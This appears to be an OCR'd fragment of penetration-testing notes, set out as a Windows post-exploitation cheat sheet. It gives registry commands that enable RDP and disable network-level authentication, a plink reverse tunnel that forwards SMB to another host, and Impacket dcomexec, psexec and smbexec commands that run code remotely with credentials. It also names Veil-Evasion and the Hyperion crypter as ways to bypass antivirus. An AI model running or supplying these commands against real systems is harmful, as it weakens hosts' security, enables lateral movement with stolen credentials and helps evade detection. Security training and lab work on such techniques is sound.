     reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f
    
    Old RDP ker cred login bullshit
    
    reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp” /v UserAuthentication /t REG_DWORD /d 0 /f
    
    Local Remote port forward Plink (Use to tunnel out RDP, SMB, etc. etc.)
    
    plink.exe -l <user> -pw <password> 10.11.0.70 -R 9595:localhost:445
    
- Post Exploit Command and Control Examples (Avoid malware etc etc. )
    
    dcomexec.py username:password@10.11.10.167 dir
    
    psexec.py username:password@10.11.10.167 net user
    
    ./smbexec.py username:password@192.168.1.103
    
- ByPass AV
    
    veil-evasion
    
    - crypters
        - hyperion.exe